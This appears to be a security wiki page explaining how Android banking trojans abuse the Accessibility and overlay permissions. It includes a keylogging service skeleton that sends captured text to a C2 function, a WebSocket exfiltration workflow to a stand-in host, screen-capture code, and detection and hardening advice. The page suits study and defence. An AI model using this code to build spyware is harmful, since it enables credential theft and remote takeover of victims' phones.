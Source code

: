 # Abusing Accessibility & Overlay Permissions in Android

{{#include ../../banners/hacktricks-training.md}}

> [!WARNING]
> The techniques described here are **commonly abused by Android banking trojans** (e.g. SharkBot, Vultur, RedHook, etc.) to obtain **full remote control, real-time screen streaming and credential theft** on devices that are *not* rooted.

## Why Accessibility Service?

Android’s `AccessibilityService` was designed to help users with disabilities interact with the UI. Once the user activates the service (`ACTION_ACCESSIBILITY_SETTINGS`) the app receives **system-wide events** and can perform **gestures on behalf of the user**, effectively obtaining:

* Complete **UI automation** (click, long-click, swipe, text input)
* Access to **view hierarchy** → harvest on-screen text, package / activity names
* **Keylogging** – every `TYPE_VIEW_TEXT_CHANGED` / `TYPE_VIEW_FOCUSED` event leaks typed characters
* Bypass of many runtime permission dialogs because interactions are simulated for the user

### Manifest & Service skeleton

```xml
<!-- AndroidManifest.xml -->
<service
    android:name=".StealthService"
    android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE"
    android:exported="false">
    <intent-filter>
        <action android:name="android.accessibilityservice.AccessibilityService"/>
    </intent-filter>
    <meta-data
        android:name="android.accessibilityservice"
        android:resource="@xml/service_config"/>
</service>
```

```java
public class StealthService extends AccessibilityService {
    @Override
    public void onAccessibilityEvent(AccessibilityEvent e) {
        // Harvest keystrokes
        if (e.getEventType() == AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED) {
            String pkg  = String.valueOf(e.getPackageName());
            String text = String.valueOf(e.getText());
            sendToC2(pkg, text);
        }
    }

    @Override public void onInterrupt() {}

    /* Perform click at x,y */
    public void doClick(int x, int y) {
        Path p = new Path();
        p.moveTo(x, y);
        GestureDescription.StrokeDescription s = new GestureDescription.StrokeDescription(p, 0, 50);
        dispatchGesture(new GestureDescription.Builder().addStroke(s).build(), null, null);
    }
}
```

## Overlay (`SYSTEM_ALERT_WINDOW`) permission

Requesting `SYSTEM_ALERT_WINDOW` allows the malware to **draw over any foreground app**, enabling:

* **Phishing overlays** that perfectly mimic banking login or OTP dialogs
* Hiding the standard *"Enable accessibility?"* confirmation so the victim blindly accepts

Runtime request:

```java
startActivity(new Intent(Settings.ACTION_MANAGE_OVERLAY_PERMISSION,
    Uri.parse("package:" + getPackageName())));
```

## Typical Exfiltration Workflow

1. Show fake login overlay, steal credentials
2. Accessibility-driven UI automation opens *Settings → Accessibility* and toggles the service itself
3. Device registers to C2 via REST (`/auth/login`) → receives JWT / client-id
4. Persistent **WebSocket** tunnel opened (`wss://c2.example/ws`) and kept alive with `ping/pong`
5. Numeric op-codes map to actions (example extracted from RedHook):
   * `10001` – collect device info
   * `10018` – start screen capture
   * `10026` – take picture with camera
   * `10034` – long click (gesture)

## Real-time Screen Streaming with `MediaProjection`

Even without root the attacker can record the screen by abusing the user-granted *media projection* consent dialog (again, auto-accepted via Accessibility):

```java
MediaProjectionManager mpm =
    (MediaProjectionManager) getSystemService(Context.MEDIA_PROJECTION_SERVICE);
startActivityForResult(mpm.createScreenCaptureIntent(), 8008);

// …in onActivityResult …
mediaProjection = mpm.getMediaProjection(resultCode, data);
VirtualDisplay vd = mediaProjection.createVirtualDisplay(
    "live", 720, 1280, 320,
    DisplayManager.VIRTUAL_DISPLAY_FLAG_AUTO_MIRROR,
    imageReader.getSurface(), null, null);
```

Each captured frame is JPEG-encoded and **streamed over the existing WebSocket** so the operator can guide the automated gestures in real time.

## Detecting This Abuse

1. adb shell `settings get secure enabled_accessibility_services`
2. Look for **non-system packages** with the `Accessibility` capability.
3. `adb shell dumpsys package <pkg>` → check for `SYSTEM_ALERT_WINDOW` in `requested permissions`.
4. Runtime monitoring (Frida/Xposed) of `AccessibilityService#dispatchGesture` & `MediaProjectionManager#createScreenCaptureIntent` calls.

## Hardening Recommendations

* From Android 13 the user must explicitly allow a *"restricted setting"* (`accessibility_api`
  or `SYSTEM_ALERT_WINDOW`) from **App Info** – ensure Play Store policy enforcement.
* Use **FLAG_SECURE** on sensitive activities to prevent screenshot & screen capture.
* Implement **onWindowFocusChanged** / `InputFilter` logic to refuse touches while the window is obscured (`filterTouchesWhenObscured=true`).
* Employ **behaviour-based MTD/EDR** capable of detecting background WebSocket beacons & gesture injection anomalies.

## Further Reading

* Android developer docs on [AccessibilityService](https://developer.android.com/guide/topics/ui/accessibility/service)
* Android developer docs on [SYSTEM_ALERT_WINDOW](https://developer.android.com/reference/android/Manifest.permission#SYSTEM_ALERT_WINDOW)
* Android developer docs on [MediaProjection](https://developer.android.com/reference/android/media/projection/MediaProjection)

## References

- [RedHook: A New Android Banking Trojan Targeting Users in Vietnam](https://cyble.com/blog/redhook-new-android-banking-targeting-in-vietnam/)

{{#include ../../banners/hacktricks-training.md}}